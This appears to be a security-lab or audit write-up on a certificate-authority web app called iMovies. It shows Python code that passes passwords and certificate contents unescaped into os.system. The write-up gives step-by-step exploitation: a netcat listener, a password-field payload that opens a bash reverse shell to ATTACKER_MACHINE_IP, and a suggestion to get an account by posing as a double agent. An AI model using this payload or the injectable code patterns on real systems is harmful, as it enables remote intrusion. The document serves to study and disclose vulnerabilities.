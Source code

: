 ```py

print("export to pkcs12")
os.system(f"openssl pkcs12 -export -inkey {key_out} \
            -passin pass:{password} -passout pass:{password} \
            -in {cert_out} -out {pkcs12_out}")
```

We see direct calls to `os.system` when doin operations with openssl. Guess what happens next.

We see that the `password` is inserted as a regular string and is likely to contain special characters because of security requirements. We can in theory get a reverse shell. To do this, we would also need to exploit the unfiltered outgoing traffic on the `enp0s8` interface and the DHCP mentioned earlier. Injection trough other x509 fields like `CN` could also be possible.

Unfortunately, we need a valid user account. This should not be a problem in the real world, as an agent could pretend to want to leak information to iMovies, but instead they'll just act as a double agent so that they get an account.

They could then log in and issue a certificate, entering a reverse shell payload instead of a password. Given that that the interface `enp0s8` is supposed to attach to the internet, is is possible that the attacker is not even attached to the internal network and is executing the whole operation remotely.

The process is as follows:

1. Go to `https://imovies.ch/` and log in

2. Go to `https://imovies.ch/certificates`

3. Setup DHCP server as before, start a listener on the attacker machine

```shell
sudo nc -l -n -vv -p 80 
```

4. In the `Issue new certificate` form, enter in both password fields

```text
;/bin/bash -c '/bin/bash -i >& /dev/tcp/ATTACKER_MACHINE_IP/80 0>&1';exit;
```

5. Click the `Issue` button. We got ourselves a shell.

Inspecting the certificate authentication procedure, we see that the certificate is sent over to the server. Then, on the CA server, in `/opt/Ca_Server/ca_server.py` the contents of the certificate are written to a file:

```py
  def verify_certificate(self, cert):
      cert_path = os.path.join(self.CERTS, "temp.cert.pem")
      os.system(f"touch {cert_path}")
      os.system(f"echo \"{cert}\" > {cert_path}") # <<<<<<<<<<
```

The value of `cert` is not validated and quotes are not escaped, so we have another shell injection. Furthermore, double quotes `"` allow for spawning of subshells using `$()`.
A side note - because the filename `temp.cert.pem` is not generated dynamically, concurrency issues can arise.

